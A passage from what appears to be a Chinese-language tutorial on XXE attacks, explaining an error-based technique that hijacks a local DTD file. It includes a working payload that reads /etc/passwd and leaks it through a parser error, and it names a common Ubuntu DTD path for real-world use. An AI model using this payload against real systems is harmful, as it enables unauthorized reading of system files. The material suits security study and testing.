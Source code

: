 我们首先引用了外部DTD文档，随后定义实体`foo`，本地DTD的实体先被解析存储且不会/tmp/foo.dtd中的覆盖

```
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % local_dtd SYSTEM "file:///tmp/foo.dtd">
<!ENTITY % foo 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
  	
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; trick SYSTEM &#x27;url://&#x25;file;&#x27;>">
        &#x25;trick;&#x25;eval;
        
        <!ELEMENT aa (bb'>

    %local_dtd;

]>

<root></root>
```

当XML解析器解析/tmp/foo.dtd时，则会拼接文本数据，再进行eval解析，`ele1` 则解析成如下文本，最后又通过参数实体 trick 触发报错信息，回显数据

```dtd
<!ELEMENT ele1 (aaa)>
        <!ENTITY % file SYSTEM "file:///etc/passwd"">
  	
<!ENTITY % eval "<!ENTITY &#x25; trick SYSTEM 'url://%file;'>">
        %trick;%eval;
        
        <!ELEMENT aa (bb)>
```



实战中可将 /tmp/foo.dtd 替换为  `/usr/share/xml/fontconfig/fonts.dtd` ，该文件在ubuntu系统中常见

<img src="XXE概要/err_based_4.png" alt="err_based_4" style="zoom:67%;" />
